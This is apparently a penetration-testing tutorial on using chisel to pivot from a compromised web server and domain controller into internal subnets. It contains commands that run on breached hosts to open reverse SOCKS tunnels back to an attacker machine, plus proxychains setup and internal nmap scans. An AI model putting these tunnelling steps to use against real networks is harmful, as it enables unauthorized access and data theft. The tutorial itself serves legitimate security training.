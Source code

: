 Lets assume that we have enumerated the network and identified a computer on the Admin network and we need to gain access and exfil data from it. Our attacker machine is 10.10.101.51 and the web server we need to breach is external facing and has an external IP of 10.10.101.50 and an internal IP or 172.16.1.101. Lets assume that you have a foothold or even root/admin on the web server and you want begin to do recon of the internal network. There are a ton of ways to go about doing this such as:

Transfering a tool such as nmap directly on the machine we have access to and scan the internal network.
A dynamic ssh tunnel utilizing socks4/socks5 and use proxychains and nmap (may be a bit slow)
Use Cobalt Strike to setup a proxy to pivot through.
The main focus of this post is to understand how to properly pivot without those other methods and use chisel instead.

First we need to start a chisel server running on port 8001 our attacker machine so we can pivot through the 10.10.101.50 machine and gain access to the network. Run the command below to start a server:

#Run command on attacker machine (10.10.101.51)
./chisel server -p 8001 --reverse
Assuming we have a foothold on the Web Server we can transfer chisel to the machine and connect back to our chisel server to complete the tunnel.

#Run command on Web Server machine (172.16.1.101 || 10.10.101.50)
./chisel client 10.10.101.51:8001 R:1080:socks
This will create a reverse proxy and open port 1080 on our machine. Now we can modify our proxychains.conf file to use this proxy. At the bottom of the /etc/proxychains.conf add socks5 127.0.0.1 1080. Now that we have this working we can use this to conduct a simple nmap of the internal network from the Web Server.

#Run command on attacker machine (10.10.101.50 || 172.16.1.101)
proxychains4 nmap 172.16.1.1/24
Now that we have gathered all the info about our current subnet and gained access to all the computers including the domain controller we now want to pivot into the second subnet. We are assuming that the domain controller on the Office Network has a trust with the Admin Network. First we need to start a chisel server on the Web Server in addition to the chisel client we are already using to pivot onto the Office Network similar to how we started a chisel server on our attacker machine. Next we need to transfer the chisel client to the Windows domain controller (172.16.1.5) to connect to our chisel server on the web server system so can chain our tunnel.

#Run command on Web Server machine (172.16.1.101)
./chisel server -p 8002 --reverse
Then on the domain controller (172.16.1.5) in the office network we want create a new connection that will connect to the chisel server running on 172.16.1.101 on port 8002

#Run command on Office Domain Controller machine (172.16.1.5)
chisel.exe client 172.16.1.101:8002 R:2080:socks
Finally we now want to add this new connection in our proxychains.conf which will look like something below.

socks5 127.0.0.1 1080 
socks5 127.0.0.1 2080 
Our connection should now now be 

Now that we can tunnel through the domain controller we can do some more recon and find the IP of the domain controller of the Admin network. Once we identify the IP of the DC in Admin network (172.16.2.10) we can begin to look for a path of compromise.
